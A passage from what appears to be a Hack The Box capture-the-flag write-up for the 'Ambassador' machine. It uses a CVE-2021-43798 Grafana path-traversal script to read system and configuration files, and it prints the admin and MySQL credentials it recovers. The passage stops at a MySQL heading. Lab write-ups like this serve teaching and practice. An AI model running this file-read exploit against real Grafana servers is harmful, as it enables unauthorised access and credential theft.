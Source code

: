 ```bash
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
developer:x:1000:1000:developer:/home/developer:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
grafana:x:113:118::/usr/share/grafana:/bin/false
mysql:x:114:119:MySQL Server,,,:/nonexistent:/bin/false
consul:x:997:997::/home/consul:/bin/false
```

I read the file `/etc/grafana/grafana.ini` to get some juicy information:

```
...
[security]
# disable creation of admin user on first start of grafana
;disable_initial_admin_creation = false

# default admin user, created on startup
;admin_user = admin

# default admin password, can be changed before first start of grafana,  or in profile settings
admin_password = messageInABottle685427
...
```

We have credentials for Grafana now: `admin:messageInABottle685427`. Grafana has a datasource to get information from the database listening in port 3306, so maybe we can also get some extra information from it.

This datasource appears to be "Provisioned" according to Grafana so the information should be in a YAML file. The name of the datasource is `mysql.yaml` so, according to the documentation, this file is probably under `/etc/grafana/provisioning/datasources/mysql.yaml`:

```bash
┌──(kali㉿kali)-[~/Documents/HTB/Ambassador]
└─$ python3 CVE-2021-43798.py -H http://10.10.11.183:3000      
Read file > /etc/grafana/provisioning/datasources/mysql.yaml
apiVersion: 1

datasources:
 - name: mysql.yaml 
   type: mysql
   host: localhost
   database: grafana
   user: grafana
   password: dontStandSoCloseToMe63221!
   editable: false
```

Nice! We have credentials for the MySQL server `grafana:dontStandSoCloseToMe63221!`. We could also get the Grafana Sqlite database and find this there if we were unable to find this YAML.

### MySQL (Port 3306)
